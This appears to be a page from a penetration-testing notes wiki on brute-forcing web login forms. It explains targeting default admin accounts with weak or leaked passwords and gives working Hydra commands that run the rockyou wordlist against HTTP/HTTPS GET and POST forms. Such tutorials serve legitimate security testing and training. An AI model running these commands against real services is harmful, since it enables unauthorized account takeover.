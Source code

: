 # Brute-Force

## Theory

We may attempt to brute-force a web service as we may not be abe to fully interact with it without credentials. Most web services come with a default user account such as **admin** and may use [common, default, weak or leaked passwords](../../../redteam/delivery/passwd/default-weak-and-leaked-passwords.md). For our brute-force attack, it will dramatically increase our chances of success and reduce the expected duration of our attack.

## Practice

{% tabs %}
{% tab title="Hydra" %}
We can use Hydra to perform such attack on HTTP/HTTPS forms. We might use following methods:

* http-get-form, in case of an http page with a get form
* https-get-form, in case of an https page with a get form
* http-post-form, in case of an http page with a post form
* https-post-form, in case of an https page with a post form

```bash
# -l : username
# -P : password list
# http(s)-*-form : "<Path_To_Login_Form>:<Post_Data>:<Incorrect_String>
# Find on error
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=^USER^&password=^PASS^:Login failed"

# Find on success
# http(s)-*-form : "<Path_To_Login_Form>:<Post_Data>:S=<Success_String>
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-post-form "/login.php:user=^USER^&password=^PASS^:S=302"
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get-form "/login.php:user=^USER^&password=^PASS^:S=Success!"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}

{% embed url="https://github.com/gnebbia/hydra_notes" %}
